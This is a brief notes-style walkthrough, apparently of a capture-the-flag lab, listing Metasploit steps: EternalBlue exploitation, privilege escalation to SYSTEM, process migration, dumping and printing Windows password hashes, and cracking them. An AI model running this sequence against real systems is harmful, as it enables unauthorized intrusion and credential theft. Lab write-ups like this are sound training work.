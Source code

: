 + Exploited eternalblue
+ Converted to meterpreter using shell_to_meterpreter in post module
+ `getsystem` -> switch to `shell` -> confirm `whoami` NT AUTHORITY\system
+ Run `ps` -> 3064  692   TrustedInstaller.exe | C:\Windows\servicing\TrustedInstaller.exe
+ Run `migrate 3064` 
+ Run `hashdump`
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
+ Use inbuilt modules at post/windows/gather/hashdump to store in metsploit db
+ Crack hashes using auxiliary/analyze/crack_windows
+ John the ripper struggled, but the password was from rockyou.txt
+ Print text file on std output using `type filename.txt`

